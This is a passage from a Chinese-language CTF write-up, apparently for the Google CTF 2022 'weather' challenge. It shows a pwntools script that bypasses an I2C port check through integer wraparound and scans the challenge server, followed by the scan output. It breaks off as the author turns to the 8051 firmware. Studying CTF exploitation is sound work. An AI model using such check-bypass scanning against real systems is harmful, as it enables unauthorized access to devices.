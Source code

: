![image](https://xuanxuanblingbling.github.io/assets/pic/google/max.png)

- [i2c总线最多可以挂多少个ic](https://blog.csdn.net/z1026544682/article/details/90613205/)
- [I2C Device Addressing](https://www.robot-electronics.co.uk/i2c-tutorial#:~:text=All%20of%20our%20modules%20and,be%20from%200%20to%20127.)

所以爆破扫描可以只循环128次：

```python
from pwn import *

'''
>>> 101000 % 256
136
>>> 101000 + (256 - 136)
101120
>>> 101120 % 256
0
'''

def scan():
    io = remote("weather.2022.ctfcompetition.com",1337)
    for i in range(128):
        test = 101120 + i
        io.sendlineafter(b'?',("r %s 4" % test).encode())
        a = io.recvuntil(b"?")
        if b'device not found' not in a:
            print("[+] %s: %s " % (str(test),str(i)))
            print(a)
            
scan()
```

发现通过101153绕过检查实际为33号的I2C port可以访问：

```c
➜  python3 exp.py
[+] Opening connection to weather.2022.ctfcompetition.com on port 1337: Done
[+] 101153: 33 
b' i2c status: transaction completed / ready\n2 0 6 2 \n-end\n?'
[+] 101221: 101 
b' i2c status: transaction completed / ready\n22 22 21 35 \n-end\n?'
[+] 101228: 108 
b' i2c status: transaction completed / ready\n3 249 0 0 \n-end\n?'
[+] 101230: 110 
b' i2c status: transaction completed / ready\n78 0 0 0 \n-end\n?'
[+] 101231: 111 
b' i2c status: transaction completed / ready\n81 0 0 0 \n-end\n?'
[+] 101239: 119 
b' i2c status: transaction completed / ready\n37 0 0 0 \n-end\n?'
```

尝试读取，通过逆向自己编译的ihx对比可以确定这就是8051的二进制：
